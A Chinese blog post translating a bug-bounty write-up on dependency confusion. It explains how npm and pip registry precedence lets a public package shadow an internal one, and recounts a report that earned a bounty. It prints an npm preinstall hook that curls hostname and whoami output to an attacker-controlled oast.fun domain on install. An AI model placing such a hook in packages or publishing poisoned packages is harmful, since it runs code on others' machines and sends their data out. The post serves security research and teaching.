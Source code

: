 #  【海外SRC赏金挖掘】供应链攻击，通过依赖投毒实现RCE（Dependency Confusion 漏洞）   
原创 fkalis  fkalis   2024-09-19 22:57  
  
# 海外SRC赏金挖掘专栏  
> **在学习SRC，漏洞挖掘，外网打点，渗透测试，攻防打点等的过程中，我很喜欢看一些国外的漏洞报告，总能通过国外的赏金大牛，黑客分享中学习到很多东西，有的是一些新的信息收集方式，又或者是一些骚思路,骚姿势，又或者是苛刻环境的漏洞利用。于是我打算开启这个专栏，将我认为优秀的文章进行翻译，加入我的理解和笔记，方便我自己学习和各位师傅共同进步，我争取做到日更，如果各位师傅觉得有用的话，可以给我点个关注~~ 如果师傅们有什么好的建议也欢迎联系我~~ 感谢各位师傅的支持~~**  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7pTY4CibicHmG6uHuL0eiasl9l6xI2MDRZaKhicsPUAdzslV95G055uvHibw/640?wx_fmt=png&from=appmsg "")  
# 正文部分  
## 声明  
> **本教程只用于学习和研究Dependency Confusion 漏洞，请不要在没有授权的情况下对网站进行非法测试，请不要进行非法投毒！！！**  
  
## 什么是依赖混淆漏洞？  
  
**依赖项混淆（Dependency Confusion）**  
  
****  
是一种软件供应链漏洞，当公司的内部包错误地从公共存储库（如 npm）而不是其私有注册表下载时，就会发生这种漏洞。  
如果包管理器（如 npm、pip 或其他）默认从公共源拉取，并且那里存在同名的包，则可能会发生这种情况。  
  
在依赖项混淆攻击中，攻击者可以创建与公司内部包同名的恶意包，并将其发布到公共注册表。如果公司的系统从公共注册表中解析包，他们可能会下载并执行攻击者的代码，从而导致远程代码执行 （RCE） 等安全风险。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicex6KWnS85zblEIcHo0xG4syxFSgE5Ic7otHn813GAM25uF0FzibkzbqYVURLK2icXQjKKZoRtNCtGQ/640?wx_fmt=other&from=appmsg "null")  
## 为什么会产生这种漏洞  
> **这和服务器主要是新包库的安装的来源优先级有关，当私有库和公有库都存在的情况下，是优先私有库，或者是优先共有库，又或者是谁的版本优先级高就选择哪个，这都和服务器的更新配置还有使用的参数有关，使用不当的优先级，可能就会导致依赖的投毒**  
  
  
例如：在最早发现的 Dependency Confusion 国外师傅   
**Alex Birsan**  
   
就发现了 pip 会导致依赖项混淆的原因是因为使用了**--extra-index-url ，**  
当使用了这个参数后，pip 下载就会准寻以下的原则  
- • 检查指定的（内部）包索  
引上是否存在这个库  
  
- • 检查公共包索引 （PyPI） 上是否存在这个库  
  
- • 安装找到的任何版本。如果这两个版本都包含该软件包，则默认从版本号较高的源进行安装。  
  
**在这种情况下，我们尝试在pip公共索引中上传一个他引用了的内部包库，并且将版本设置的很高，就会导致代码进行引用更新的时候会安装到我们上传到公共索引的恶意代码**  
## 漏洞利用基本流程（略）  
  
不知道会不会有风险，没有在公众号进行详细流程的讲解，在内部小圈子进行展示.....  
## 实例  
> https://bugcrowd.com/Polyxena  
  
  
### 发现依赖  
  
在一次参与过程中，我检查了该公司的一个 JavaScript 文件，并注意到它引用了存储在 中的Node.js包 。这表明该公司正在使用内部 npm 包。我检查了这个内部包是否已在公共 npm 注册表上发布，我发现它在 npm 上**未被认领**。/node_modules/@confidential-package-name  
  
这种未认领状态表明，任何人都可以创建具有相同名称的包，并通过诱骗公司的系统从公共 npm 注册表而不是其内部源代码下载和执行代码，从而可能导致**依赖项混淆**问题。  
### 漏洞利用  
  
我使用与内部包相同的名称创建了一个恶意 npm 包。然后，我将此包发布到公共 npm 注册表，嵌入了一个perinstall脚本，该脚本旨在在安装时自动执行。@confidential-package-name  
  
perinstall 脚本简单但有效：  
```
"preinstall": "curl --data-urlencode \"info=$(hostname && whoami)\" http://<攻击者控制的域>.oast.fun"
```  
  
他可以很好的将目标的host发送给我们，用于确定受害者的域名，以及代码执行whoami进行漏洞的验证  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicex6KWnS85zblEIcHo0xG4seNI8rnviau1sUDkxlia0rtxJ300dxqDwcia9lKwPHFzsCTrtg6PouEibow/640?wx_fmt=other&from=appmsg "null")  
  
package.json  
  
此脚本会将安装包的服务器的主机名和用户信息发送到我控制下的域。一旦包在 npm 上上线，我就耐心等待，在几个小时到几天内，我开始收到来自公司**生产和非生产环境**的多个请求，确认他们的系统正在下载和执行恶意包。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicex6KWnS85zblEIcHo0xG4sghpxHMzqfuq7b2ZwYLRibkAaCZ8RR0vDXagda5HG2MYVHicduTsgPITA/640?wx_fmt=other&from=appmsg "null")  
  
这些请求包括主机名和用户名等详细信息，为了解哪些环境受到依赖关系混淆攻击的影响提供了宝贵的见解。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicex6KWnS85zblEIcHo0xG4sicFrhhp6bR91PbYpQ1qKibIW5XuicTCkibrYPvCkPvHG9Rr9xx0aef4icPA/640?wx_fmt=other&from=appmsg "null")  
  
受控主机上收到 150 多次 HTTP 和 DNS 查询后，我开始分析 IP 地址和从中检索到的数据。我通过过滤掉已知的爬虫程序来策划列表，然后对所有剩余的 IP 进行 WHOIS 查找，以检查是否有任何 IP 与公司的 IP 范围或其服务提供商匹配。  
  
一周内，报告被接受了。获得了 2,500 美元的赏金，这是此特定计划的最高奖励。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicex6KWnS85zblEIcHo0xG4sVXEicX0C3Qe6yLdibdbRibVkZrJdTxzdK1gg6Lhcon6y5kvybYcg9ianmg/640?wx_fmt=other&from=appmsg "null")  
  
# 知识星球  
  
**具体的星球介绍可以看一下这里~~**  
  
[WingBy小密圈，他来了！](https://mp.weixin.qq.com/s?__biz=MzkyODcwOTA4NA==&mid=2247484765&idx=1&sn=01366a5d13fb4be7f9c0e69e565d64ff&chksm=c215e5eef5626cf8c87fcca7d784068772d364a12aa4b4a224aebd1e69bddf52fec0f791d000&token=276602823&lang=zh_CN&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7lPF38IqibU9Az906W6RHJBQhf2OR32Ks7sd8Xh4ric0VFRNR2lXmFwKA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicdCvkAftp00C0F9g6uLYXGnpAWQmOBwrqRUI6V26tvWqFJib6PmZO9fiaY0nia2An9JmtL5mMibqIAH5w/640?wx_fmt=jpeg&from=appmsg "null")  
  
**注意：帮会和星球是为了考虑大家的方便习惯，福利和内容是一致的，后续更新也是一致的~~~只需要进行一次付费就可以啦~~（建议还是使用帮会）**![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBicf197vbRopEgYNZjbmJ00wHzicThAsLt7xehsSWC5JKY3NSEMkWbGolb0oSJmLlQlqHTic5bVyFgeBg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
# 项目合作  
  
  
**有甲方大大，或者厂商师傅，或者其他的项目，欢迎咨询，我以及团队始终将客户的需求放在首位，确保客户满意度~~**  
  
****  
**目前主要的服务范围：**  
****  
> **1. 渗透测试、漏洞扫描**  
  
**2. 代码审计**  
  
**3. 红蓝攻防**  
  
**4. 重保以及其他攻防类项目**  
  
**5. 红队武器化开发以及蓝队工具开发**  
  
**6. CTF相关赛事的培训等**  
  
**7. cnvd，cnnvd，edu，cve等证书**  
  
**8. nisp，cisp等证书**  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7ZJRQaUkzj4SdzlE2LemzRDG7yrl4rP4cFunhhibibX3CzGEPwFQzqIkw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
